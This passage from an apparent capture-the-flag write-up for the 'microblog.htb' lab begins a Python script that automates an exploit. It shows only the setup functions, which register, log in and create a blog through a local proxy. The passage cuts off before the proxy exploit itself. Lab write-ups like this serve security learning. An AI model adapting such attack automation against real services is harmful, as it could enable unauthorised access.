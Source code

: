 Nice!  
![pro.png](pro.png)  

## Automating the exploit

The users are getting wiped quite frequently, and automating that looked like a fun exercise. Also because python requests wouldn't let us do the cool trick we did with curl, using an invalid HTTP method... I had to do it in raw bytes in a TCP socket. I think it helped me a lot in getting a better understanding of how the proxy exploit works since we're working directly with what the actual bytes look like in the HTTP request. 
```python
import requests
import socket
from simple_chalk import green
import sys


PROXY = 'http://127.0.0.1:8080'
DOMAIN = 'microblog.htb'
HEADERS = {'Content-Type': 'application/x-www-form-urlencoded'}
USER = sys.argv[1]


def login():
    data = f'username={USER}&password={USER}'
    url = f'http://app.{DOMAIN}/login/index.php'
    res = requests.post(url, data, headers=HEADERS, proxies={'http': PROXY})
    cookie = res.history[0].cookies.get_dict()
    return cookie


def register():
    data = f'first-name={USER}&'\
           f'last-name={USER}&'\
           f'username={USER}&'\
           f'password={USER}'
    url = f'http://app.{DOMAIN}/register/index.php'
    res = requests.post(url, data, headers=HEADERS, proxies={'http': PROXY})
    if 'successful' in res.url:
        print(f'{green("[+]")} User successfully registered')
        cookie = res.history[0].cookies.get_dict()
    if 'already' in res.url:
        print(f'{green("[+]")} User already exists')
        cookie = login()
    return cookie


def create_blog(cookies):
    data = f'new-blog-name={USER}'
    url = f'http://app.{DOMAIN}/dashboard/index.php'
    res = requests.post(
        url,
        data,
        headers=HEADERS,
        cookies=cookies,
        proxies={'http': PROXY}
    )
    if 'already' in res.url:
        print(f'{green("[+]")} Blog already exists')
```
